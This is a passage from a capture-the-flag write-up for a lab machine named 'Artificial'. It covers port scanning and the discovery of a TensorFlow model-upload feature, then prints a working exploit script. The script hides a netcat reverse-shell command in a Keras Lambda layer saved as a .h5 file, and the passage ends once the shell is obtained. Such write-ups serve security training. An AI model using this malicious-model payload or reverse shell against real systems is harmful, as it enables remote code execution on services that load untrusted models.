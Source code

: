 # Title : Artificial

## Recon

### Port Scanning

```bash

 nmap -sV -sC -Pn -A 10.10.11.74 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-02 20:50 WAT
Nmap scan report for 10.10.11.74
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   147.47 ms 10.10.14.1
2   124.80 ms 10.10.11.74

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.15 seconds
                                                        

```

- add you ip add to /etc/hosts

```bash

$ sudo echo "10.10.11.74    artificial.htb"  >> /etc/hosts

```

- after adding that to the `/etc/hosts`

- proceed to access it on the web browser, where i saw an endpoint to register (which i did), then login with my credential which i use to  regester

- After successfully login, we  see a prompt, where we can see there a Upload Model button, we also see there give so `requirement.txt` and `Dockerfile` which i downloaded and read the infomation in the files


```bash

$ cat requirements.txt 
tensorflow-cpu==2.13.1

$  cat Dockerfile 
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]


```

- i search for how to get a RCE with `.h5` which i was ale to get `https://github.com/Splinter0/tensorflow-rce`
- i modified the exploit.py to my tun interface ip address 

```bash
cat exploit.py 
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.65 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")


```

- i start my listner on port `4444`

```bash

$ nc -lvnp 4444  

```

- bam i have the shell

```bash

```